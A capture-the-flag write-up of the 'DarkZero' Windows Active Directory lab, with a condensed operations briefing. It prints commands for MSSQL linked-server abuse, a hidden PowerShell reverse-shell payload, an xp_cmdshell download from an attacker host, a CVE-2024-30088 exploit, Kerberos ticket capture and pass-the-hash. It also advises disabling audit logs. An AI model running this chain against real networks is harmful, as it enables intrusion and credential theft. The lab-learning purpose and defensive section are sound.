

# DarkZero

```
Difficulty: Hard
Operating System: Windows
Hints: True
```


## TL;DR

Using the credentials **john.w:RFulUtONCOL!**, I performed service enumeration and discovered **DC01** is multihomed (10.10.11.89 and 172.16.20.1). I abused MSSQL linked servers to enable `xp_cmdshell` on the linked host, used Metasploit's `web_delivery` to gain a meterpreter shell on the internal interface, escalated to SYSTEM via a local exploit (CVE-2024-30088), ran **Rubeus** to capture Kerberos ticket material by triggering an SMB call via `xp_dirtree`, converted the captured ticket into a usable cache, and used `impacket-secretsdump` and `evil-winrm` to gain Administrator access and retrieve the root flag.


| Step |             User / Access            | Technique Used                                  | Result                                                                                                                        |
| :--: | :-: | :- | :- |
|   1  |                 `N/A`                | **Port & AD Service Enumeration**               | nmap revealed AD services + MSSQL on 10.10.11.89; DNS returned 10.10.11.89 and 172.16.20.1 (multihomed / split-horizon).      |
|   2  |               `john.w`               | **SMB / LDAP Auth & Host Mapping**              | Valid creds used to enumerate SMB; generated hosts file and confirmed limited shares.                                         |
|   3  |               `john.w`               | **MSSQL Auth & Linked Server Discovery**        | Connected to MSSQL; enumerated linked servers and discovered `DC02.darkzero.ext` mapped to higher-privileged login.           |
|   4  | `john.w` → `dc01_sql_svc` (via link) | **Enable `xp_cmdshell` on Linked Server**       | Switched context to linked server and enabled `xp_cmdshell`.                                                                  |
|   5  |        `darkzero-ext\svc_sql`        | **Remote Command Execution (web_delivery)**     | Executed Metasploit web_delivery base64 payload via `xp_cmdshell` → meterpreter shell on internal 172.16.20.2.                |
|   6  |        `darkzero-ext\svc_sql`        | **Pivot / Internal Recon**                      | Confirmed internal interface and enumerated local services for LPE.                                                           |
|   7  |         `svc_sql` → `SYSTEM`         | **Local Privilege Escalation (CVE-2024-30088)** | Used local exploit to obtain `NT AUTHORITY\SYSTEM`.                                                                           |
|   8  |           `SYSTEM` on DC02           | **Rubeus Monitor**                              | Uploaded / ran Rubeus to capture Kerberos TGT/TGS (base64 `.kirbi`) when server triggered SMB access.                         |
|   9  |              `Attacker`              | **Trigger Kerberos/NTLM via xp_dirtree**        | From MSSQL executed `xp_dirtree \\DC02\...` which caused DC01 to request ticket / fall back to NTLM — Rubeus captured output. |
|  10  |              `Attacker`              | **Ticket conversion & use**                     | Converted captured `.kirbi` → ccache; set `KRB5CCNAME` and validated with `klist`.                                            |
|  11  |            `Administrator`           | **Secrets extraction & final access**           | Used `impacket-secretsdump -k` and `evil-winrm` (or psexec with recovered hash) to get Administrator and read root flag.      |


## Recon & host discovery

I started with a full TCP nmap scan of the domain controller:

```bash
nmap -p 1-65535 -T4 -A -v 10.10.11.89
```

**Nmap highlights:**

* 53/tcp open domain (Simple DNS Plus)
* 88/tcp open kerberos-sec (Microsoft Windows Kerberos)
* 135/tcp open msrpc
* 139/tcp open netbios-ssn
* 389/tcp open ldap (Active Directory)
* 445/tcp open microsoft-ds
* 636/tcp open ssl/ldap
* 1433/tcp open ms-sql-s (Microsoft SQL Server 16.00.1000.00)
* 3268/tcp, 3269/tcp open (LDAP / LDAPS global catalog)
* multiple high msrpc ports open

> The host is multihomed: DNS for `darkzero.htb` returned both `10.10.11.89` and `172.16.20.1` (split-horizon / internal network). Services bound to the `172.16.x` interface are internal-only and relevant for pivoting.


Generate hosts file and enumerate SMB:

```bash
nxc smb 10.10.11.89 -u 'john.w' -p 'RFulUtONCOL!' --generate-hosts-file /etc/hosts
smbmap -H 10.10.11.89 -d 'darkzero.htb' -u 'john.w' -p 'RFulUtONCOL!'
```


(SMB/BloodHound enumeration produced only default shares.)

Query DNS (discover split-horizon / multihomed host):

```bash
dig @DC01.darkzero.htb ANY darkzero.htb
```


The authoritative DNS response returned two A records for `darkzero.htb`: `10.10.11.89` and `172.16.20.1`. This indicates a split-horizon DNS or multihomed host. In this box, `10.10.11.89` answered while `172.16.20.1` appears internal-only. This distinction matters for pivoting and service reachability.


## Prepare Meterpreter payload (Metasploit `web_delivery`)

Create and run a web_delivery meterpreter job from msfconsole:

```bash
msfconsole -q -x "use exploit/multi/script/web_delivery ; set payload windows/x64/meterpreter/reverse_tcp ; set LHOST tun0 ; set LPORT 443 ; set target 2 ; exploit -j"
```

This generates a Base64 web-delivery payload to execute via `xp_cmdshell` on the SQL host later.


## Connect to MSSQL and inspect linked servers

Connect to MSSQL using Impacket’s mssql client (Windows auth):

```bash
mssqlclient.py 'darkzero.htb/john.w:RFulUtONCOL!@10.10.11.89' -windows-auth
```


Attempt to enable `xp_cmdshell` on DC01 (failed initially):

```sql
enable_xp_cmdshell -- failed
```

Enumerate linked servers:

```sql
enum_links
-- shows DC02.darkzero.ext as a linked server
```


The linked server configuration shows `DC02.darkzero.ext` as a linked server. The link uses the local account `darkzero\john.w`, which maps to the remote login `dc01_sql_svc` on DC02. This allowed us to run commands on DC02 in a higher-privilege context.

Switch to the linked server and enable `xp_cmdshell` in that context:

```sql
use_link "DC02.darkzero.ext"
enable_xp_cmdshell
-- (Success when run via linked context)
```


Now run the web-delivery payload via `xp_cmdshell`:



```sql
xp_cmdshell "powershell.exe -nop -w hidden -e XXXXXXXXXXXXXXXXXXXX"
```


This provided a meterpreter shell as `darkzero-ext\svc_sql`. Inside the meterpreter session, `ifconfig` revealed an internal IP `172.16.20.2` (internal interface), confirming pivoting into the internal network.


## Local privilege escalation — enumerate & exploit (Metasploit)

Run the local exploit suggester from within Metasploit:

```text
use multi/recon/local_exploit_suggester
set session 1
run
```


From the suggested list we used the CVE-2024-30088 local exploit.

```text
use exploit/windows/local/cve_2024_30088_authz_basep
set payload windows/x64/meterpreter_reverse_tcp
set session 1
set lhost tun0
set AutoCheck false
run
```


After running the exploit and checking `getuid`, we obtained `NT AUTHORITY\SYSTEM` — full administrative access on the host.

**Alternative (non-Metasploit):** Upload a small agent via `xp_cmdshell` and use `lligolo`/route + `impacket psexec.py` with an NTLM hash to pivot and execute commands on DC02.

Example upload and psexec usage:

```sql
xp_cmdshell "powershell wget -UseBasicParsing http://10.10.xx.xx/agent.exe -OutFile %temp%/agent.exe"
```

Then on attacker:

```bash
psexec.py Administrator@172.16.20.2 -hashes :XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

And read user flag:

```text
DC02 : 172.16.20.2
type C:\Users\Administrator\Desktop\user.txt
```


## Rubeus: capture Kerberos ticket material

Other privilege escalation checks (e.g. WinPEAS) returned nothing useful, so we used **Rubeus** to monitor Kerberos activity on the target. Rubeus can detect newly issued or used TGT/TGS tickets and output them in base64 `.kirbi` format.

From SYSTEM / meterpreter on DC02:

```text
cd %temp%
# upload Rubeus.exe via Meterpreter
upload Rubeus.exe
```

Switch to an interactive shell and run Rubeus monitor:

```cmd
shell
C:\Windows\Temp\Rubeus.exe monitor /interval:1 /nowrap
```

Trigger the ticket retrieval from the SQL server by causing it to access an SMB resource on DC02 using `xp_dirtree` from the MSSQL client on DC01:

```bash
impacket-mssqlclient 'darkzero.htb/john.w:RFulUtONCOL!'@DC01.darkzero.htb -windows-auth
-- then on the DB connection:
xp_dirtree \\\\DC02.darkzero.ext\\XXXXXXXXXX
```

Rubeus on DC02 captured the base64 ticket output. Save that output to `ticket.bs4.kirbi`.


## Convert captured ticket to usable Kerberos cache

On your attacker host, decode the base64 ticket and convert it to a ccache:

```bash
cat ticket.bs4.kirbi | base64 -d > ticket.kirbi
python3 ticketConverter.py ticket.kirbi dc01_admin.ccache
export KRB5CCNAME=dc01_admin.ccache
klist
```

Verify the TGT/TGS is present with `klist`.


## Use Kerberos ticket with impacket/secretsdump and evil-winrm

With the converted ticket, run `impacket-secretsdump` to extract secrets or hashes:

```bash
impacket-secretsdump -k -no-pass 'darkzero.htb/DC01$@DC01.darkzero.htb'
```

If NTLM hashes are recovered, authenticate as `Administrator` via `evil-winrm`:

```bash
evil-winrm -i 10.10.11.89 -u administrator -H XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


Finally read the root flag:

```text
type C:\Users\Administrator\Desktop\root.txt
```


# Short Notes

# DarkZero Tactical Operations Briefing  

**Target:** `darkzero.htb` – Domain Controller (DC01)  
**IP Range:** External: `10.10.11.89` | Internal: `172.16.20.1 / 2`  
**Objective:** Pivot to internal network → elevate privileges on DC02 → retrieve user & root flags  

 

## PHASE 1 – STRATEGIC OVERVIEW  

| # | Item | Details |
|---|------|---------|
| **1.1** | High‑Level Definition | Compromise external domain controller, pivot internally via SMB/SQL linked server, achieve SYSTEM on DC02, exfiltrate flags. |
| **1.2** | Operational Impact | Full administrative control over internal network, ability to harvest Kerberos tickets and NTLM hashes for lateral movement and privilege escalation. |
| **1.3** | The Scenario | External-facing DC01 exposes multiple services (DNS, Kerberos, LDAP, SMB, MSSQL). Internal interface (`172.16.x`) is isolated; split‑horizon DNS returns both IPs. Exploitation chain: <br>1️⃣ Enumerate SMB shares → 2️⃣ Connect to MSSQL with valid credentials → 3️⃣ Leverage linked server to run `xp_cmdshell` on DC02 → 4️⃣ Execute web‑delivery payload for Meterpreter → 5️⃣ Pivot internally, exploit CVE‑2024‑30088 → 6️⃣ Capture Kerberos ticket via Rubeus → 7️⃣ Use ticket/NTLM hash with `impacket‑secretsdump` / `evil‑winrm` to read root flag. |

 

## PHASE 2 – SYSTEM ARCHITECTURE & THEORY  

| # | Item | Details |
|---|------|---------|
| **2.1** | Protocol Environment | • Active Directory (Kerberos, LDAP) <br>• MSSQL Server 16.00 <br>• SMB/CIFS <br>• DNS (split‑horizon) |
| **2.2** | Key Components | * DC01 – Domain Controller & SQL host<br>* DC02 – Internal domain controller (linked server target)<br>* `john.w` – user with DB access on DC01<br>* `darkzero\svc_sql` – service account used by linked server<br>* `Administrator` – domain admin |
| **2.3** | Attack Logic Flow | ```text\n[External attacker] → Nmap (10.10.11.89) → SMB enumeration → MSSQL client → Linked Server (DC02) → xp_cmdshell → web‑delivery payload → Meterpreter (darkzero-ext\svc_sql)\n→ Internal IP 172.16.20.2 → LPE CVE‑2024‑30088 → SYSTEM\n→ Rubeus monitor → Kerberos ticket capture → impacket‑secretsdump / evil‑winrm → root flag``` |
| **2.4** | The Analogy | *The domain controller is a multi‑room house with two entrances: the public lobby (10.10.11.89) and a hidden backdoor (172.16.x). By exploiting a faulty intercom (linked server), we gain access to the staff room (DC02), then use a broken lockpick (CVE‑2024‑30088) to open all doors, finally eavesdrop on the key‑chain (Kerberos ticket) to unlock the master safe.* |

 

## PHASE 3 – THE ATTACK VECTOR (MECHANICS)

### The Core Mechanism

| Attribute | Details |
|-----------|---------|
| **Primary Identifiers** | *SPNs:* `cifs/DC02.darkzero.ext` <br>*LDAP Filters:* None (direct query) <br>*Registry Paths:* N/A |
| **Critical Vulnerability** | • `xp_cmdshell` disabled on DC01 but enabled via linked server context. <br>• CVE‑2024‑30088 – Windows LPE in the “basep” component, exploitable from SYSTEM session. |
| **Offensive Action** | 1️⃣ Enable `xp_cmdshell` on linked server (DC02). <br>2️⃣ Run web‑delivery payload (`powershell.exe -nop -w hidden -e …`) via `xp_cmdshell`. <br>3️⃣ Pivot internally to `172.16.20.2`. <br>4️⃣ Exploit CVE‑2024‑30088 → SYSTEM. <br>5️⃣ Start Rubeus monitor, trigger SMB access with `xp_dirtree`, capture Kerberos ticket. <br>6️⃣ Convert ticket (`base64 -d > ticket.kirbi`) and use with `impacket‑secretsdump` / `evil‑winrm`. |

#### Prerequisites for Success  

| Requirement | Details |
|-------------|---------|
| **Access Level** | Valid SQL credentials (`john.w:RFulUtONCOL!`). <br>SQL Server service account must be able to use linked server (`darkzero\svc_sql`). |
| **Connectivity** | • TCP 53,88,135,139,389,445,636,1433,3268,3269 (all open). <br>• Internal SMB port 445 reachable on `172.16.20.2`. |
| **Target State** | • `xp_cmdshell` enabled on DC02 context. <br>• CVE‑2024‑30088 present (Windows 10/Server 2016‑2022). |

 

## PHASE 4 – EXECUTION & TARGETING  

1️⃣ **Scouting & Discovery**  
- Nmap full scan (`nmap -p 1-65535 -T4 -A -v 10.10.11.89`).  
- SMB enumeration with `smbmap` and BloodHound (default shares only).  
- DNS split‑horizon via `dig @DC01.darkzero.htb ANY darkzero.htb`.  

2️⃣ **Filtering & Analysis**  
- Identify internal IP (`172.16.20.1/2`) for pivoting.  
- Confirm linked server `DC02.darkzero.ext` maps to `darkzero\svc_sql`.  

3️⃣ **High‑Value Selection**  
- `xp_cmdshell` on linked server → ability to run arbitrary commands as SYSTEM on DC02.  
- CVE‑2024‑30088 – high‑impact local exploit from SYSTEM session.  

 

## PHASE 5 – THE TOOLKIT & IMPLEMENTATION  

| Automation Tools | Notes |
|------------------|-------|
| `impacket-mssqlclient` | Connects to MSSQL with Windows auth. |
| `msfconsole` (web_delivery) | Generates Base64 web‑delivery payload for Meterpreter. |
| `Rubeus.exe` | Kerberos monitor (`monitor /interval:1`). |
| `impacket-secretsdump` | Extracts NTLM hashes using ticket cache (`-k -no-pass`). |
| `evil-winrm` | WinRM session via NTLM hash. |
| Metasploit modules | `exploit/windows/local/cve_2024_30088_authz_basep`. |

### OPSEC  
- Use reverse TCP over HTTPS (port 443) to avoid firewall detection.  
- Keep Meterpreter sessions hidden (`-w hidden`).  
- Disable SMB tracing and audit logs on internal shares after exploitation.

### Post‑Exploitation  
- **Hashcat Mode:** 1400 – NTLM hashes for `Administrator`.  
- **Event IDs (if monitoring):**  
  - 4624 – Successful logon.  
  - 4625 – Failed logon (NTLM challenge).  
  - 4648 – Logon via explicit credentials.  

 

## PHASE 6 – DEFENSIVE POSTURE (BLUE TEAM)  

| Detection Benchmark | What to Monitor |
|----------------------|-----------------|
| **Hardness Level** | Medium‑High – requires knowledge of linked servers and Kerberos ticket patterns. |
| **Event IDs** | 4624, 4625, 4648, 4688 (process creation). |
| **Mitigation Strategy** | 1️⃣ Disable `xp_cmdshell` on all SQL servers.<br>2️⃣ Remove or restrict linked server permissions to only necessary accounts.<br>3️⃣ Enforce least‑privilege for SQL service accounts.<br>4️⃣ Enable Kerberos logging and monitor for abnormal TGS requests (e.g., from unexpected hosts).<br>5️⃣ Harden SMB by restricting share access and disabling anonymous shares. |
| **Personnel Focus** | IT security staff must review SQL configuration, enforce password policies on domain controllers, and audit Kerberos service principals. |

 

## QUICK‑ACTION PLAYBOOK  

| Step | Objective | Command / Technical Logic |
|------|------------|---------------------------|
| 1 | Enumerate SMB shares (internal) | `smbmap -H 172.16.20.2 -d darkzero.htb -u john.w -p 'RFulUtONCOL!'` |
| 2 | Enable xp_cmdshell on linked server | ```sql\nuse_link "DC02.darkzero.ext"\nenable_xp_cmdshell``` |
| 3 | Deploy web‑delivery payload | `xp_cmdshell "powershell.exe -nop -w hidden -e <Base64Payload>"` |
| 4 | Pivot to internal IP | Meterpreter → `ifconfig` → note `172.16.20.2` |
| 5 | Exploit CVE‑2024‑30088 | `use exploit/windows/local/cve_2024_30088_authz_basep\nset session <meterpreter>\nrun` |
| 6 | Capture Kerberos ticket | `Rubeus.exe monitor /interval:1 /nowrap` + trigger via `xp_dirtree \\\\DC02.darkzero.ext\\<share>` |
| 7 | Convert and use ticket | ```bash\ncat ticket.bs4.kirbi | base64 -d > ticket.kirbi\npython3 ticketConverter.py ticket.kirbi dc01_admin.ccache\nexport KRB5CCNAME=dc01_admin.ccache\nimpacket-secretsdump -k -no-pass 'darkzero.htb/DC01$@DC01.darkzero.htb'\n``` |
| 8 | WinRM session to root | `evil-winrm -i 172.16.20.2 -u Administrator -H <NTLMHash>` |

 